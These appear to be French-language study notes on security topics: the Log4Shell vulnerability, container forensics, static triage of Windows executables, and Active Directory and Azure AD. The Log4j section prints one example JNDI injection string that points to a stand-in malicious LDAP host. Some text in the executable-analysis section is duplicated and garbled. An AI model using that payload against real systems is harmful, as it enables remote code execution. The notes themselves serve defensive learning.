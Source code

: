 ## Log4j identification a la remediation
- CVE 2021 44228 : Score 10 (maximum)
- Utilisation simple : une requete craftee specialement permet de telecharger et executer une charge 
- Log4j : Utilitaire de journalisation faisant parti des systemes Apache
- JNDI : (Java Naming and Directory Interface) Interface pour utiliser les utilitaires web (DNS, LDAP, RMI...)
### Principe
Une requete contenant des caracteres speciaux va permettre d'executer une classe definie a partir d'un serveur LDAP donne par l'utilisateur

Se base sur les *Lookups*; utilises pour remplacer des caracteres speciaux par des valeurs arbitraires definies dans les logs

Mise en place : `${jndi:ldap/www.badsite.com/badJavaClass}`

### Miligation 
1. Mise en place du Hunting sur le SIEM
2. Protocole Recherche, Detection, Inventorier -> suivre les recommandations de l'ANSSI

## Forensique en environnement conteneur
La theorie reste la meme en environnement conteneur (Docker; Kubernetes) mais pas les outils

- Conteneur : Application generee a partir d'une image . 
  Ensemble de processus isoles du systeme a l'aide de **namespaces**. 
  Environnements dynamiques -> sont detruits/crees a la volee en fonction de la charge CPU -> possible d'utiliser cronjob pour cela


Les couches du modele conteneur interessantes pour le Forensique :
- OCI (Open Container Initiative)
- CRI (Container Runtime Interface)

Elles definissent des couches d'API et de format utilisees par toutes les technos 

### Specificites
- Possible d'utiliser les techniques de base (/proc; /pid; systemes de fichiers...) mais utilite limitee -> pas efficace; pas d'enregistrement de l'information utile
- Le service cloud doit etre pris en compte : pas le meme niveau d'information entre AWS (aucune divulgation-> pas d'analyse post-mortem) et EKS/ECS 
### Pistes d'analyse
- Possible de partir de l'image de generation (`docker inspect`, `crictl inspect`) avec l'outil `dive`
- Possible d'utiliser les disques et les snapshots. Depends du systeme de fichier et du volume (Overlay2 (GNU/Linux) permet une analyse de systeme de ficher; devicemapper necessite une analyse sur les blocs)
- Remarque : Avec le bon timing; on peut commit l'image utilise `docker commit <container>` et la sauvegarder `docker save <image>`
- Pour l'analyse memoire : 
  - Possible d'utiliser LiMe / AMVL pour faire une sauvegarde complete de la memoire
  - Toujours possible d'utiliser Volatity pour faire un dump complet de la memoire. Pour faire une capture opportuniste; utiliser Criu -> `criu-coredump` couple a `gdb`

## Analyse statique des executables windows 
- Triage des executables suspects : execution en sandbox (analyse dynamique) et analyse statique
- PE : Portable Executable; Executable en plusieurs sections; chargees par le loader Windows a partir d'une logique de mappin- PE : Portable Executable; Executable en plusieurs sections; chargees par le loader Windows a partir d'une logique de mapping
  La section contenant le code machine est souvent nommee **.text**. Contient egalement le point d'entree 
  **.rdata** contient les constantes et **.data** des variables.
  Chaque section peut etre nommee a l'envie mais ses caracteristiques dependent de ses droits (READ/WRITE/EXEC)
- UPX : Compression des fichiers (PE/ELF) et decompression a la volee pendant l'executation vers la forme originale
### Protocole
1. Identification
  - Chercher la signature du binary (MD5; SHA256, SHA1) dans hashlookup ou virustotal. La publication de ces fichiers donnent l'information a l'adversaire que son vecteur d'attaque est grille -> d'abord faire des tests en interne 
  - Possible de telecharger un fichier a partir de son hash (bazaar)
  - L'adversaire pouvant faire varier le hash de son vecteur a chaque utilisation -> verifier les valeurs ssdeep
2. Recherche de strings
  - Utilisables sous Windows(`Sysinternals`) comme Linux
  - Permet de trouver les librairies importees par le vecteur (voir `MalAPI` pour l'utilisation malveillante de l'API windows)
  - Possible de reconnaitre des messages d'erreur de la STD C/C++ 
  - Le nombre de strings trouve donne une information importante : le binaire est-il compresse ? Chargement de librairies externes ? 
3. Recherche de motifs
  - Utilisation d'outils comme `binwalk`(variation d'entropie) ou `yara`(signatures)
 et decompression a la volee pendant l'executation vers la forme originale et decompression a la volee pendant l'executation vers la forme originale et decompression a la volee pendant l'executation vers la forme originale et decompression a la volee pendant l'executation vers la forme originale
 4. Automatisation 
 - Creation de rules Yara
 - Outils de detection (ici `Detect It Easy`) -> utilise le langage AutoIt

# Active Directory 
- AD : Active Directory; Introduite par Microsoft en 1999 avec la sortie de Windows 2000 pour la gestion de postes et de serveurs. 
  Technologie sur le declin ? Encore tres utilisee mais vieille -> point de fragilite critique (surface d'attaque et outillage massif)
- Fonctionnement de AD : Plusieurs services base sur un **anuaire global** et le protocole LDAP. Permet d'identifier / verifier/ autoriser les acces 
Utilise un serveur DNS pour lister les protocoles et les services dans `_ldap _kerberos _gc _kpasswd`. Integre egalement un serveur NTP pour la synchronisation
- Kerberos : Element d'authentification fonctionnant par session token (`ticket TGT` associe a une session utilisateur pour un temps donne)
- Problemes de AD : Correctifs regressifs (`PrintNightmare`)
## Securite d'Azure AD & Intune
 - Azure AD : Systeme de gestion des identites en ligne par Microsoft. Fonctionne parfaitement avec les AD mis en place dans le systeme 
 - Azure Intune: Gestion de l'identite des terminaux mobiles
 - Le teletravail et le SaaS (**software as a service**) sont en grand developpement
 *partie de la revue passee; TODO prise de note ?*
### Samba-AD ou l'AD opensource
 - Base sur la decision de justice de la cour europenne (position dominante) -> obligation de publier les spes techniques inter operabilites des produits
